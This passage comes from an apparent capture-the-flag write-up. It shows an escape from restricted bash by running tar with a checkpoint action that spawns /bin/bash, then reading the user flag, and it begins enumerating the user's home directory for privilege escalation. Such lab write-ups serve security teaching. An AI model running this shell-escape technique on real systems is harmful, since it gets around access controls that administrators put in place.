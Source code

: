 

Using either [this Linux restricted shell bypass
guide](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)
or [gtfobins](https://gtfobins.github.io/gtfobins/tar/) I'll see that
`tar` can break out of rbash.



    www-data@chaos:/home$ echo $PATH
    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    www-data@chaos:/home$ su - ayush
    Password:
    ayush@chaos:~$ tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
    tar: Removing leading `/' from member names
    bash: groups: command not found
    ayush@chaos:~$ cd ~
    ayush@chaos:~$ ls
    Command 'ls' is available in '/bin/ls'
    The command could not be located because '/bin' is not included in the PATH environment variable.
    ls: command not found
    ayush@chaos:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    ayush@chaos:~$ ls
    mail  user.txt



Now I have access to `user.txt`:



    ayush@chaos:~$ cat user.txt
    eef39126...



## Privesc: ayush --\> root

### Enumeration

Looking around in ayush''s home directory, I see the `.mozilla`
directory:



    ayush@chaos:~$ ls -la
    total 40
    drwx------ 6 ayush ayush 4096 May  8 06:57 .
    drwxr-xr-x 4 root  root  4096 Oct 28  2018 ..
    drwxr-xr-x 2 root  root  4096 Oct 28  2018 .app
    -rw------- 1 root  root     0 Nov 24 23:57 .bash_history
    -rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
    -rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
    drwx------ 3 ayush ayush 4096 May  8 06:57 .gnupg
    drwx------ 3 ayush ayush 4096 May  7 05:11 mail
    drwx------ 4 ayush ayush 4096 Sep 29  2018 .mozilla
    -rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
    -rw------- 1 ayush ayush   33 Oct 28  2018 user.txt

